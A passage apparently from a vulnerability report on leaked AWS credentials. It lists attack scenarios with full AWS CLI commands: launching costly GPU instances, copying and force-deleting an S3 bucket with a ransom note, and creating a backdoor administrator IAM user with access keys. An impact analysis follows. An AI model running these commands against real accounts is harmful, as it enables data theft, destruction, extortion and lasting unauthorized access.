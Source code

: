 ```bash
aws ec2 run-instances --image-id ami-gpu-optimized --instance-type p3.16xlarge --count 10

```

**Scenario 3: Resource Destruction and Ransomware**
An attacker uses the credentials to identify critical business data in S3 buckets. They first create copies of the data, then delete the original buckets, and leave a ransom note demanding payment for the return of the data:

```bash
# Copy data first
aws s3 sync s3://acme-critical-data ./stolen-backup

# Delete the original data
aws s3 rb s3://acme-critical-data --force

# Create a new bucket with a ransom note
aws s3 mb s3://acme-ransom-note
echo "Your data has been deleted. Contact ransomware@malicious.example for recovery instructions" > ransom.txt
aws s3 cp ransom.txt s3://acme-ransom-note/

```

**Scenario 4: Persistent Access**
A sophisticated attacker uses the initial credentials to create a new IAM user with programmatic access and administrative permissions, ensuring they maintain access even if the original compromised credentials are discovered and revoked:

```bash
aws iam create-user --user-name support-backup
aws iam attach-user-policy --user-name support-backup --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam create-access-key --user-name support-backup

```

# Impact Analysis
**Business Impact:**
- **Financial Loss**: Unauthorized usage of AWS resources could lead to significant unexpected charges, especially if attackers deploy costly compute resources for cryptocurrency mining or other resource-intensive operations.

- **Data Breach**: Exposure of sensitive customer data, intellectual property, or business information stored in S3 buckets could lead to regulatory penalties, particularly under frameworks like GDPR, CCPA, or industry-specific regulations.

- **Operational Disruption**: Deletion or modification of critical resources could disrupt business operations, leading to downtime, lost productivity, and potential revenue impacts.

- **Reputational Damage**: Public disclosure of a data breach resulting from this vulnerability could damage customer trust and brand reputation, potentially leading to customer churn.

- **Remediation Costs**: Resources required to investigate the breach, restore data, implement proper security controls, and potentially provide credit monitoring for affected customers represent significant unplanned costs.
